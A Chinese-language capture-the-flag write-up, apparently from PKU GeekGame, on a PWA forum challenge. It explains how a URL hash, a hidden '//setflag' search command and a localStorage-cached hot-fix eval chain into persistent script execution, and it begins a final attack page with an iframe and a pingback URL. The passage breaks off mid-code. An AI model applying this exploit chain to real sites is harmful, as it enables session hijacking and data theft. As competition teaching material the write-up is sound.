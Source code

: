 阅读代码发现这个 eval 实际上是一个代码 “热修复” 的业务逻辑，页面启动后请求 `static/appswitcher_items.json`，如果响应中包含 `fix` 字段就执行代码。这是因为树洞是一个 PWA，前端代码有缓存，代码改变后用户第二次访问时才能更新到新版本，因此万一出现了恶性 bug 需要有办法跳过缓存直接在用户浏览器上执行代码强制更新。

继续分析这个业务逻辑，发现在请求完 JSON 后会把它缓存到 `localStorage['APPSWITCHER_ITEMS']`，下次直接从 localStorage 读取。因此如果能任意覆盖这个值，就能执行任意代码。

那么，如何覆盖呢？继续搜索关键词 `localStorage`，发现另一段业务逻辑：

![image-20211116133108620](assets/image-20211116133108620.png)

如果用户在搜索框输入 `//setflag key=value`，就会执行 `localStorage['key'] = 'value'`。这个功能其实有历史渊源，在网页树洞的上古时期是没有设置页面的，要想修改什么参数只能通过这个方式改。此后增加了设置页面，但由于有一些功能不便放在 UI 里（你可以试试 `//setflag DELETION_DETECT=on`），因此就保留了这个设置 “隐藏参数” 的功能。

那么，如何伪造用户在搜索框的输入呢？树洞的另一段业务逻辑是，页面加载时自动搜索 URL `#` 后面的文字。比如访问 `/hole/##1234` 就会自动在搜索框输入 `#1234` 并提交：

![image-20211116133307542](assets/image-20211116133307542.png)

这样一来，做法就呼之欲出了。在恶意网页里通过 `<iframe>` 等方式加载 `https://prob15-qkuhole.geekgame.pku.edu.cn/hole/#` 后面接 `//setflag APPSWITCHER_ITEMS={"switcher_2": {"fix": {"hole": "..."}}}`，就会发生以下事情：

- URL 识别逻辑把 URL 后面的内容搬运到搜索框并触发搜索
- 搜索逻辑检测到隐藏参数，把 localStorage 修改为指定的内容
- 下次访问时从 localStorage 读取代码并执行

最终攻击脚本如下：

```html
<iframe sandbox="allow-scripts allow-same-origin" id="frame"></iframe>
<script>
let frame = document.getElementById('frame');
let HOLE_URL = 'https://prob15-qkuhole.geekgame.pku.edu.cn/hole/';
let PINGBACK_URL = new URL('pingback.html', location).href;

async function sleep(ms) {
    return new Promise((resolve)=>{
        setTimeout(resolve,ms);
    });
}

let exp_items = {
    "switcher_2": {
        "bar":[],
        "dropdown":[],
        "fix":{}
    }
```
